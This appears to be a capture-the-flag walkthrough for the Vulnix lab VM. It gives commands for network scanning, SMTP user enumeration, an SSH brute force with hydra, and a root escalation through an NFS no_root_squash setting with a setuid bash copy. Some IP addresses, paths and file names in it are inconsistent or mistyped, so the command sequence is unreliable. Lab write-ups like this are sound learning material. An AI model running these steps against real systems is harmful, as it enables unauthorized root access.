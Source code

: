 # Vulnix-walk-through

# 00 change network setting for the machine to bridged 

# 0. Get VM’s IP

nmap 192.168.1.0/24 

machine ip is 192.168.1.3


# enumeration

![image](https://user-images.githubusercontent.com/52453415/128644622-90d01174-fc9c-4188-a8b2-e886888bbfe9.png)

non of the services was vulnerable 

# smtp enumeration 

using the wordlist from seclist of top-usernames-shortlist.txt

smtp-user-enum -M VRFY -U /top-usernames-shortlist.txt -t 192.168.1.3 

found that user, root are exist

using finger 

![image](https://user-images.githubusercontent.com/52453415/128644728-4cf90139-0b61-4927-81b7-4ca231a396f4.png)

# NFS enumeration

there is mounted files on the system

![image](https://user-images.githubusercontent.com/52453415/128644802-0fb94c76-9f18-441d-a060-10bc7e12edee.png)

mount them ! 

![image](https://user-images.githubusercontent.com/52453415/128644814-28cc9234-8940-4c4d-8c62-0bd128a42ff5.png)

but permission is denied ; searched why i've learned that the root_squash flag  is set for these files 

![image](https://user-images.githubusercontent.com/52453415/128644921-f4e863e1-67b7-4956-8e13-6de51393df1c.png)

probably that what we are going to do :D 

any way 

since that there are no vulnerable service lets take the brute force approach

# brute force ssh with user "user"

i don't think that brute forcing user " root " would be helpful so i tried "user" with hydra witch got me the password letmein

# Privilege escalation 

sudo -l ; nothing 

gcc ; not installed 

cd /home/vulnix ; not permitted 

we need to access this mounted files and edit it 

If you navigate to `/home you’ll notice the shared directory we couldn’t access earlier. Why don’t we try to get the UID for vulnix and create a temporary user on our system and access it?

id vulnix

uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)

in another terminal 

useradd -u 2008 vulnix

mkdir /home/kali/temp

mount -t nfs 192.168.1.72:/home/vulnix /home/kali/tmp

sudo su vulnix 

cd /home/kali/temp

![image](https://user-images.githubusercontent.com/52453415/128645095-14ed7670-a138-4402-8e65-b6b92f83130d.png)

now let's edit these files to access with vulnix user which we hope that it has more prvi

let's generate ssh keys and transfer it to the mounted dir and get in 

Create ssh key pair by running ssh-keygen.

Create .ssh directory on the mounted share /home/kali/temp/.ssh

mkdir  /home/kali/temp/.ssh

cat /home/kali/id_rsa.pub >> /home/kali/temp/authorized_keys.txt

now let's login ssh vulnix@192.168.1.3

whoami >> vulnix 

first thing to check sudo -l 

shows that i can edit /etc/exporters

which is the access control list for filesystems which may be exported

now i will mount the / directory with no_root_squash fllag 

i added this line to the file 

/root  *(rw, no_root_squash)

or i could just edit /home/vulnix to be 

/home/vulnix  *(rw, no_root_squash)


now we are good to go ; except that these exchanges will not take place unless the machine is rebooted but i have no privilege to do this via the command line 

so in the real world you won't be able to do this you will until it reboots ; i rebooted the VM 

now copy the bin/bash with our root privilege and setuid for it to the mounted dir 

cp /bin/bash /home/kali/temp

chmod 4777 /home/kali/temp/bin/bash

![image](https://user-images.githubusercontent.com/52453415/128645477-46e95acf-64fd-4c7e-a362-ad0b50142922.png)

ssh vulnix@192.16.1.3 

bash -p // to keep the file privilege 

whoami 

root 





